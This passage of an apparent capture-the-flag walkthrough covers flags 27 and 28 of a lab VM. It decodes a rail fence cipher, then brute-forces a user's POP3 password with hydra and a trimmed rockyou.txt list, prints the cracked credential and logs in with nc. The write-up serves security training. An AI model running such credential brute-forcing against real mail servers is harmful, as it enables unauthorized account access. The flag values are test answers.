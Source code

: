 Use CyberChef with Rail Fence Cipher Decode (https://gchq.github.io/CyberChef/#recipe=Rail_Fence_Cipher_Decode(2,0)&input=R09OR1RGQSBXTllFRSBTQ0tWVFZWV05YU09ESUggTEdURVRTVk5JIFZXSlpOUFpRV0I) with key=2 (`The sheep jump over two fences`).

Decoded message: `GOODNIGHT FLAG TWENTYSEVEN IS CVKWVJTZVNVPWZNQXWSB`

Flag 27: `CVKWVJTZVNVPWZNQXWSB`

## #10 - Flag 28

*Hint: we will, we will rock you. The text appear in between line 4500 to 5500, starts with d. It takes 1 to 2 hours to brute-force with -t 64.*

Let's brute force wakawaka's POP3 password. As we are told the password is in rockyou.txt list, between lines 4500 and 5500, we will save some time.

~~~
$ sed -n 4500,5500p /data/src/wordlists/rockyou.txt | grep "^d" > passwords.txt 
$ wc -l passwords.txt 
38 passwords.txt
$ hydra -l wakawaka -P passwords.txt -f pop3://172.16.222.133
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-23 20:41:38
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 38 login tries (l:1/p:38), ~3 tries per task
[DATA] attacking pop3://172.16.222.133:110/
[110][pop3] host: 172.16.222.133   login: wakawaka   password: damnit
[STATUS] attack finished for 172.16.222.133 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-23 20:41:47
~~~

Let's connect as `wakawaka` with `damnit` as password:

~~~
$ nc 172.16.222.133 110
+OK Dovecot (Ubuntu) ready.
USER wakawaka
+OK
PASS damnit
+OK Logged in.
LIST
+OK 6 messages:
1 953
2 1039
3 895
4 959
5 23450
6 867
.
~~~
